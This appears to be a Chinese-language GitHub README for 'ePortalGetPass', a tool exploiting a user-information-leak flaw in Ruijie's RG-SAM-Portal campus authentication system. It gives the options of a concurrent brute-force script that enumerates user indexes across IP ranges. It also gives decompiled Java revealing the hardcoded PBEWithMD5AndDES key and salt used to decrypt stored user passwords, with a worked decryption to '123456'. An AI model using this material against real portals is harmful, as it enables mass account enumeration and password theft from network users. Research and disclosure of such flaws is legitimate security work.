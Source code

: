 # ePortalGetPass

Ruijie RG-SAM-Portal 用户信息泄露漏洞
```
usage: user_index_blasting.py [-h] [-p PREFIX] [-i IP] [-c CONCURRENT] [-s SID] [-n NUM]

options:
  -h, --help                                    show this help message and exit  
  -p PREFIX, --prefix PREFIX                    userindex前缀  
  -i IP, --ip IP                                指定ip段  
  -c CONCURRENT, --concurrent CONCURRENT        并发数量  
  -s SID, --sid SID                             开始爆破的起始账号  
  -n NUM, --num NUM                             要爆破账号的数量  
```

## 关键代码

* `jboss\server\default\deploy\eportal.war\WEB-INF\classes\com\ruijie\webportal\service\helper\UserHelper.getOnlineUserByUserIndex`
```java
public static byte[] hexStringToBytes(String hexStr, String prefix) {
    if (hexStr == null || prefix == null) throw new NullPointerException();
    String myHexStr = hexStr.trim();
    if (myHexStr.startsWith(prefix)) myHexStr = myHexStr.substring(prefix.length());
    int myHexStrLen = myHexStr.length();
    byte[] ba = new byte[myHexStrLen / 2];
    for (int i = 0; i < myHexStrLen; i += 2) {
        int vi = Integer.parseInt(myHexStr.substring(i, i + 2), 16);
        if (vi > 128) vi -= 256;
        ba[i / 2] = (byte) vi;
    }
    return ba;
}
String userIndex = "64623132613537653238383035353562343534663661383564393134313831395f31302e3130302e36342e315f323130323230303030";
userIndex = new String(hexStringToBytes(userIndex, ""));
System.out.println(userIndex); // db12a57e2880555b454f6a85d9141819_10.100.64.1_210220000
```

* `jboss\server\default\deploy\selfservice.war\WEB-INF\lib\rgspl-common\com\ruijie\spl\common\crypt\SamJce`
```java
encryptPbeCipher = null;
decryptPbeCipher = null;
private static char[] samKey = new char[] { '1', '2' };
public static void initJce() {
    byte[] salt = { -57, 115, 33, -116, 126, -56, -18, -103 };
    PBEParameterSpec pbeParamSpec = new PBEParameterSpec(salt, 20);
    SecretKeyFactory keyFac = SecretKeyFactory.getInstance("PBEWithMD5AndDES");
    SecretKey pbeKey = keyFac.generateSecret(new PBEKeySpec(samKey));
    encryptPbeCipher = Cipher.getInstance("PBEWithMD5AndDES");
    decryptPbeCipher = Cipher.getInstance("PBEWithMD5AndDES");
    encryptPbeCipher.init(1, pbeKey, pbeParamSpec);
    decryptPbeCipher.init(2, pbeKey, pbeParamSpec);
}
public static synchronized String encrypt(String code) {
    return bytesToHexString(encryptPbeCipher.doFinal(code.getBytes()),""); 
}
public static synchronized String decrypt(String code) {
    return new String(decryptPbeCipher.doFinal(hexStringToBytes(code, ""))); 
}
initJce();
System.out.println(decrypt("68a9d05959330e4e")); // 123456
```

## 参考
* [admintony/ePortalGetPass](https://github.com/admintony/ePortalGetPass)
* [校园网认证系统-RG-SAM-Portal组件-用户信息泄露漏洞](http://admintony.com/校园网认证系统-RG-SAM-Portal组件-用户信息泄露漏洞.html)
* [RG-SAM+认证计费管理平台](https://www.ruijie.com.cn/cp/yyxt-yygl/samx)
* [RG-SAM+ ENTERPRISE_4.21(p14)_Build20210122](https://www.ruijie.com.cn/fw/rj/87101)
